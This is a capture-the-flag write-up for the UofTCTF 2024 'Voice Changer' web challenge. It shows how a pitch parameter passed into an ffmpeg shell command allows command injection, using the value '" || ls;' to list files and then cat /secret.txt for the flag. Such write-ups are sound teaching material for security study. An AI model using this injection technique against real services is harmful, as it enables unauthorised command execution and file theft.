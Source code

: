 ```yaml
---
title: Voice Changer
date: 2024-01-15
tags: web
categories: UofTCTF 2024
---
```


solved by {% person hartmannsyg %}

We have a website where we can record our voice, set the pitch and upload it:
<img src="/static/UofTCTF2024/voice_changer.png" alt="" width="500"/>

When we upload a file, we make the following request (I viewed this in Burpsuite):

{% ccb lang:http %}
POST /upload HTTP/1.1
Host: uoftctf-voice-changer.chals.io
Content-Length: 3470
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXBAW2BbbaaD0A1NO
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Origin: https://uoftctf-voice-changer.chals.io
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://uoftctf-voice-changer.chals.io/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
Connection: close

------WebKitFormBoundaryXBAW2BbbaaD0A1NO
Content-Disposition: form-data; name="pitch"

1
------WebKitFormBoundaryXBAW2BbbaaD0A1NO
Content-Disposition: form-data; name="input-file"; filename="recording.ogg"
Content-Type: audio/ogg

<audio binary>
{% endccb %}

It responds with:

{% ccb lang:bash wrapped:true terminal:true %}
$ ffmpeg -i "/app/upload/c4d99020-b367-11ee-a08f-779926f969c1.ogg" -y -af "asetrate=44100*1,aresample=44100,atempo=1/1" "/app/output/c4d99020-b367-11ee-a08f-779926f969c1.ogg"

ffmpeg version 6.1 Copyright (c) 2000-2023 the FFmpeg developers
  built with gcc 13.2.1 (Alpine 13.2.1_git20231014) 20231014
  ... a bunch more stuff
{% endccb %}

when we edit the pitch to something else, we see that the pitch gets reflected into the command. So if we set pitch to be `amogus`, it will run:

{% ccb html:true wrapped:true terminal:true %}
$ ffmpeg -i <span class="string">"/app/upload/8e958b80-b368-11ee-a08f-779926f969c1.ogg"</span> -y -af <span class="string">"asetrate=44100*<span class="number">amogus</span>,aresample=44100,atempo=1/<span class="number">amogus</span>"</span> <span class="string">"/app/output/8e958b80-b368-11ee-a08f-779926f969c1.ogg"</span>
{% endccb %}

So if we set pitch to be `" || ls;`

{% ccb html:true wrapped:true terminal:true %}
$ ffmpeg -i <span class="string">"/app/upload/8e958b80-b368-11ee-a08f-779926f969c1.ogg"</span> -y -af <span class="string">"asetrate=44100*<span class="code-segment-highlight">"</span></span><span class="code-segment-highlight"> || <span class="built_in">ls</span>;</span>,aresample=44100,atempo=1/<span class="string"><span class="code-segment-highlight">" || ls;</span>"</span> <span class="string">"/app/output/8e958b80-b368-11ee-a08f-779926f969c1.ogg"</span>

index.js
node_modules
output
package-lock.json
package.json
public
upload
yarn.

ffmpeg version 6.1 Copyright (c) 2000-2023 the FFmpeg developers
  ... a bunch more ffmpeg stuff
{% endccb %}

Nice, we basically got shell, now we just gotta find the flag, though its not in it's directory. Let's try `ls -l /`:

{% ccb terminal:true highlight:14 %}
drwxr-xr-x    1 root     root          4096 Jan 13 05:35 app
drwxr-xr-x    1 root     root          4096 Dec 11 18:37 bin
drwxr-xr-x    5 root     root           360 Jan 14 03:28 dev
drwxr-xr-x    1 root     root          4096 Jan 14 03:28 etc
drwxr-xr-x    1 root     root          4096 Jan 13 05:35 home
drwxr-xr-x    1 root     root          4096 Jan 10 21:25 lib
drwxr-xr-x    5 root     root          4096 Dec  7 09:43 media
drwxr-xr-x    2 root     root          4096 Dec  7 09:43 mnt
drwxr-xr-x    1 root     root          4096 Dec 11 18:37 opt
dr-xr-xr-x  391 nobody   nobody           0 Jan 14 03:28 proc
drwx------    1 root     root          4096 Dec 11 18:37 root
drwxr-xr-x    2 root     root          4096 Dec  7 09:43 run
drwxr-xr-x    1 root     root          4096 Jan 10 21:24 sbin
-rwxr-xr-x    1 root     root            31 Dec 31 04:31 secret.txt
drwxr-xr-x    2 root     root          4096 Dec  7 09:43 srv
dr-xr-xr-x   13 nobody   nobody           0 Jan 14 03:28 sys
drwxrwxrwt    1 root     root          4096 Dec 11 18:37 tmp
drwxr-xr-x    1 root     root          4096 Jan 10 21:25 usr
drwxr-xr-x    1 root     root          4096 Dec  7 09:43 var
{% endccb %}

now if we `cat /secret.txt`:

{% ccb terminal:true %}
uoftctf{Y0UR Pitch IS 70O H!9H}
{% endccb %}